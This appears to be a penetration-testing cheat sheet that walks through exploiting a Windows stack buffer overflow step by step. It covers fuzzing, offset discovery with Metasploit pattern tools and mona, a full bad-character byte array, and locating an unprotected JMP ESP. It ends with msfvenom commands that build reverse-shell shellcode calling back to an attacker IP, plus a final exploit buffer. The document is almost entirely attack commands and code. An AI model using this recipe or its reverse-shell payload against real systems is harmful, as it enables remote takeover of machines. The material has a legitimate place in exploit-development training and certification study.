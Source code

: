## BOF

```
# BASIC GUIDE
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E10.11.1.111 offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
with script _badchars.py and 
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
	5.1 AWESOME WAY TO CHECK BADCHARS (https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/):
		a. !mona config -set workingfolder c:\logs\%p
	    b. !mona bytearray -b "\x00\x0d"
	    c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
	    d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
	    e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"
 
	6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
	6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.111 LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=10.11.1.111 lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode


```
